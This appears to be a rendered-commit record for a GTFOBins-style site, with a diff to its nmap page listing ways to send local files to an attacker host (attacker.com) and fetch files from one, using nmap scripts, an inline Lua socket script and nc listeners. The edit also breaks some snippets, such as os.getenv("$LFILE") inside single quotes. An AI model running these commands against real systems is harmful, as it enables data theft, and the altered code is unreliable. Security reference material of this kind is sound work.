

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/nmap.md, in a window 1280 px wide and 1400 px high, scrolled down 180 px, cut to the strip 159-1386 px from the top of the window. Shown: the whole strip, without its empty margins (209-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1430 px from its top, so only the background shows below that.

Commit message:
Update nmap.md

```diff
--- a/_gtfoud/nmap.md
+++ b/_gtfoud/nmap.md
@@ -3,37 +3,27 @@ functions:
   file-upload:
     - description: Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
       code: |
-        RHOST=attacker.com
-        RPORT=8080
-        LFILE=file_to_send
         nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
-    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
+    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file.
       code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
         TF=$(mktemp)
-        echo 'local f=io.open(os.getenv("LFILE"), 'rb')
+        echo 'local f=io.open(os.getenv("$LFILE"), 'rb')
         local d=f:read("*a")
         io.close(f);
         local s=require("socket");
         local t=assert(s.tcp());
-        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+        t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
         t:send(d);
         t:close();' > $TF
         nmap --script=$TF
   file-download:
     - description: Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
       code: |
-        RHOST=attacker.com
-        RPORT=8080
         TF=$(mktemp -d)
         LFILE=file_to_save
         nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
-    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
+    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file.
       code: |
-        export LPORT=12345
-        export LFILE=file_to_save
         TF=$(mktemp)
         echo 'local k=require("socket");
         local s=assert(k.bind("*",os.getenv("LPORT")));
```
